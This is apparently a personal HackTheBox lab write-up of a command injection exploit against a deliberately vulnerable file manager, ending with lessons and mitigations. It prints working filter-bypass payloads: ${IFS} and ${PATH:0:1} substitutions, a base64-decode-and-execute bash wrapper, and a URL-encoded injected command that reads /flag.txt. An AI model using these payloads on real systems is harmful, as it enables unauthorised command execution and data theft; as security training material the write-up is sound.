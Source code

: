 # Day30 - Command Injection (HTB Skill Assessment)

- **Platform**: HackTheBox  
- **Category**: Web / Command Injection  
- **Difficulty**: Medium  
- **Date**: 2025-05-30  
- **Tools Used**: BurpSuite, Base64 encoding, bash obfuscation  

---

## Summary
This assessment simulated a vulnerable file manager application. By abusing weak parameter handling, I identified and exploited a **command injection vulnerability** that allowed system-level code execution.  

---

## Enumeration
- Target: `http://10.129.xxx.xx:46000`  
- Application: File manager with browsing, search, and file actions (copy/move).  
- Observations:  
  - Parameters such as `to` and `from` reflected in the URL.  
  - Actions like `move` triggered server-side system calls.  
- Initial attempts to inject commands (e.g., `; ls`, `| whoami`) triggered **“malicious request denied”**, indicating blacklisted keywords/characters.  

---

## Exploitation

### Step 1 — Filter Analysis
- Identified filters blocking common commands and spaces.  
- Bypass strategy:  
  - Obfuscation with `${PATH:0:1}` for `/`.  
  - `${IFS}` for spaces.  
  - Base64-encoded payloads decoded on target with:  
    ```bash
    bash<<<$(base64 -d<<<"<encoded-payload>")
    ```  

### Step 2 — Proof of RCE
- Verified command injection with:  
  ```bash
  whoami
  ```
  - Response: `www-data`.  
- Confirmed with:  
  ```bash
  ls -la
  ```  

### Step 3 — Accessing the Flag
- Located `/flag.txt` in the system root.  
- Initial attempt: move flag into a writable directory.  
  ```bash
  mv ${PATH:0:1}flag.txt ${PATH:0:1}var${PATH:0:1}www${PATH:0:1}html/tmp
  ```
  - Attempt failed due to permission restrictions.  

- Final bypass using encoded cat:  
  ```bash
  %26c\a\t%09${PATH:0:1}flag.txt
  ```
  - Successfully displayed flag contents.  

- **Flag:** `HTB{REDACTED}`  

---

## Lessons Learned
- Command injection is among the most critical web vulnerabilities — direct OS command execution often leads to **full system compromise**.  
- Blacklists can be bypassed with creative encoding: `${IFS}`, `${PATH}`, tabs, and base64 wrappers.  
- Effective mitigations include:  
  - Never passing unsanitized user input to system commands.  
  - Enforcing strict input validation and sanitization.  
  - Running apps with minimal privileges and hardened server configs.  
